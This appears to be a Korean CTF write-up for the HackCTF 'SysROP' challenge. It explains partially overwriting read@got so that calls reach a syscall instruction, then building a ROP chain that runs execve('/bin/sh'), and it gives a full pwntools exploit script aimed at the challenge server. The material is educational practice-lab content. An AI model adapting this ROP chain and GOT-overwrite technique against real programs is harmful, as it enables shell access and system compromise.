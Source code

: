 ```yaml
---
title: "[HackCTF]SysROP"
date: 2019-12-29
ctf: HackCTF
layout: post
---
```


그냥 웬만한 gadget 다 있길래 그냥 릭해서 풀라고 했는데 출력함수가 없었다.. 근데 가젯중에 `0x00000000004005ea : pop rax ; pop rdx ; pop rdi ; pop rsi ; ret` 이런게 존재해서 rax에 syscall 번호를 넣어주고 가젯들 세팅해주면 syscall을 이용할 수 있을거다. read 함수에서 syscall이 있어서 이를 이용하면 될거다.

`read@got`의 하위 1바이트를 0x5e로 overwrite하면 read함수 호출할 때마다 syscall이 호출될거다.

![](https://user-images.githubusercontent.com/32904385/71559865-62dfe700-2aa6-11ea-8af8-3498559254dd.png)

syscall을 이용해 `execve` 를 호출해 `execve('/bin/sh\x00',0,0)` 이런식으로 넣어주면 쉘이 실행될거다.

data영역에 `/bin/sh\x00` 을 넣고 `read@got` 의 하위 1바이트는 overwrite 해서 syscall 호출해 인자를 `execve('/bin/sh\x00',0,0)`  이렇게 만들어주면 된다. execve의 syscall num은 59다.

> exploit.py

```python
from pwn import *

e = ELF('./sysrop')
# p = process('./sysrop')
p = remote('ctf.j0n9hyun.xyz',3024)
libc = ELF('./libc.so.6')

data = 0x601030
syscall_gadget = 0x00000000004005ea # pop rax ; pop rdx ; pop rdi ; pop rsi ; ret
pop3ret = 0x00000000004005eb # pop rdx ; pop rdi ; pop rsi ; ret
main = 0x00000000004005F2

payload = 'A'*0x18
payload += p64(pop3ret)
payload += p64(10) # rdx
payload += p64(0) # rdi
payload += p64(data) # rsi
payload += p64(e.plt['read'])
payload += p64(main)

p.sendline(payload)
sleep(0.1)
p.sendline('/bin/sh\x00')
sleep(0.1)

payload2 = 'A'*0x18
payload2 += p64(pop3ret)
payload2 += p64(1)# rdx
payload2 += p64(0) # rdi
payload2 += p64(e.got['read']) # rsi
payload2 += p64(e.plt['read'])

payload2 += p64(syscall_gadget)
payload2 += p64(59) # rax
payload2 += p64(0) # rdx
payload2 += p64(data) # rdi
payload2 += p64(0) # rsi
payload2 += p64(e.plt['read'])

p.sendline(payload2)
sleep(0.1)
p.sendline('\x5e')
sleep(0.1)

p.interactive()
```

